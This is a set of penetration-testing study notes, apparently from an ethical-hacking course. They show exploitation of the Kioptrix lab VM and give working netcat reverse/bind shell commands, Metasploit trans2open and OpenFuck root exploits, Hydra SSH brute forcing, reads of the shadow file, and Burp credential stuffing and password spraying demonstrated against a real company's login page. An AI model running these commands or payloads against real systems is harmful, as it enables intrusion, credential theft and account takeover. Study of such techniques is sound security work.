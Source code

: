 # Exploitation Basics

## Reverse Shells vs Bind Shells

### netcat

- reverse shell: a victim connects to us, we executes a linux bin shell when it connects, we're listening. 95% of cases.
- bind shell: we connect to a port on the target, the victim is listening. Uesful to bypass firewalls.

Reverse shell:

1. open a port: `nc -nvlp 4444`
2. `nc 192.168.92.128 4444 -e /bin/bash`

Bind shell:

1. `nc -nvlp 4444 -e /bin/bash`
2. connect to our victim: `nc 192.168.92.128 4444`

Note: `4444` is often blacklisted by antiviruses and firewalls.

## Staged vs Non-Staged Payloads

- non-staged payload: sends exploit shellcode all at once (large size, won't always work) (windows/meterpreter_reverse_tcp)
- staged payload: sends in stages (can be less stable), metasploit identifies them with an extra / (windows/meterpreter/reverse_tcp)

if one type is not working, try the other one.

## Gaining Root with Metasploit

1. run `msfconsole`
2. `search trans2open`, look for the targeted OS
3. `use 1`, then `options` to know which options to provide
4. `set rhosts 192.168.92.129`, then `options` again to check if it's set and `show targets`
5. type `run` or `exploit`, the payload is the issue, `options` again.
6. `set payload linux/x86/shell_reverse_tcp` with autocompletion to know our options, now it's a non-staged payload. `options` again to check if it's set.

we're in:

```
whoami
root
hostname
kioptrix.level1
```

## Manual Exploitation

With OpenFuck:

1. `git clone https://github.com/heltonWernik/OpenFuck.git && cd OpenFuck`
2. `apt install libssl-dev`
3. `gcc -o open OpenFuck.c -lcrypto`
4. `./open` to know the options you have to pass
5. `./open 0x6b 192.168.92.129 -c 40`, we know the type of machine thanks to our enumeration work, no port needed because we don't use ssl.

```
whoami
root
hostname
kioptrix.level1
```

Metasploit is more robust. OSCP certification exam doesn't allow Metasploit. Pen testers look for practicality.

- `sudo -l` to know our privileges.
- `cat /etc/passwd` to see passwords (only x placeholders, starting at 500 we have usernames: `john` and `harold`).
- `cat /etc/shadow` with hashes.

Post-exploitation: a new work of enumeration starts.

## Brute Force Attacks

### SSH

3 reasons to do that in an assessment:

1. test password strength
2. test if we can go in with a weak/default password
3. does the blue team catch us when brute forcing? (being loud sometimes to test the other team)

### hydra

- `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.92.129:22 -t 4 -V`, -V for verbosity, -t for threads.

### metasploit

- run `msfconsole`, then `search ssh`
- `use auxiliary/scanner/ssh/ssh_login` then `options`
- `set username root` and `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt` and `set rhosts 192.168.92.129` and `set threads 10` (would be detected super fast) and `set verbose true`.
- `run` or `exploit`

## Credential Stuffing and Password Spraying

entering stolen credentials (leaked credentials).

### Credential Stuffing

- create textfiles with your users and your passwords.
- install FoxyProxy Standard in Firefox, add a proxy called Burp suite, with `127.0.0.1` as host and `8080` as port, save and then activate the added proxy.
- go to tesla sign in page, launch burp suite, copy the login post query to the intruder, click `Add$` on selected email and again on selected password, select Pitchwork. Go to payloads, paste your list of users, and your list of passwords (simple list, payload set 2).
- run, monitor status (301 means redirect), change in size is also interesting sometimes.
- settings, grep feature, paste the expected failed response ("We could not sign you in" in our example), it adds a checkbox to the results (we see it's not working)

### Password Spraying

- click `Clear$` and then click `Add$` on selected email. Now we test all the emails with a breached password. Select Sniper. Payload is your list of possible emails.

Beware when attacking active accounts, you can lock them. For pen test, know in advance password attempts rules to avoid blocking any client.

These two techniques are the more common way to go in during an assessment. Default credentials work well also. Often, the "house" is well protected from the outside, but not the same once you're inside, often we leave our inside doors opened.

## Our Notes, Revisited
